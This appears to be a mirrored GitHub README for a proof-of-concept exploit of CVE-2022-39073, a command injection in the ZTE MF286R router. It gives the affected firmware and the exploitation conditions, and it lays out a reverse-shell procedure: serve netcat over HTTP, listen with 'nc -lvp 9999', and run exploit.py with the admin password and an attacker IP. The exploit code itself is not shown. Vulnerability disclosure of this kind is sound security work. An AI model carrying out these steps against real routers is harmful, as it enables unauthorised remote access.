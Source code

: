 # CVE-2022-39073

Proof of concept for the command injection vulnerability affecting the ZTE MF286R router, including an RCE exploit.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/v0lp3](https://github.com/v0lp3) |
| Url      | [https://github.com/v0lp3/CVE-2022-39073](https://github.com/v0lp3/CVE-2022-39073)                                               |
| Stars    | 10                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* command-injection* cve-2022-39073* exploit* iot* mf286r* rce* router* zte

</details>

## Readme

# CVE-2022-39073

Firmware details:

```
wa_inner_version: BD_POSTEMF286RMODULEV1.0.0B12
cr_version: CR_ITPOSTEMF286RV1.0.0B10
```

## Prerequisites

- requests (`pip install requests`)

## Command Injection

The vulnerability is a shared command injection between the `zte_net_link_detect` binary and the `WATCH_DOG_SWITCH` handler in the webserver `goahead` binary.

Note that the vulnerability can only be exploited when the router is connected to the WAN or connected to the Internet via a SIM card. (The value of the "ppp_status" key must be "ppp_connected" or "ipv4_ipv6_connected" or "ipv6_connected").

### Risks

- Remote code execution (RCE)
- Arbitrary command execution

### Proof of Concept

The idea of exploit is to download the netcat static binary from an http server and then open a reverse shell with it.
P.S: The netcat included in this folder is big endian.

- Open an http server in this directory `python3 -m http.server 8080` 
- Open a listening socket on port `9999` with `nc -lvp 9999`
- Run the script in this folder `python3 exploit.py http://<router> <admin_password> <attacker_ip, es: 192.168.1.101>`

## References

This vulnerability was reported by Andrea Maugeri in September 2022.
https://support.zte.com.cn/support/news/NewsDetail.aspx?newsId=1028664


## Get the content

```
git clone https://github.com/v0lp3/CVE-2022-39073
cd CVE-2022-39073
```

{% embed url="https://github.com/v0lp3/CVE-2022-39073" %}

<figure><img src="https://avatars.githubusercontent.com/u/20267645?v=4" alt=""><figcaption><p>v0lp3</p></figcaption></figure>
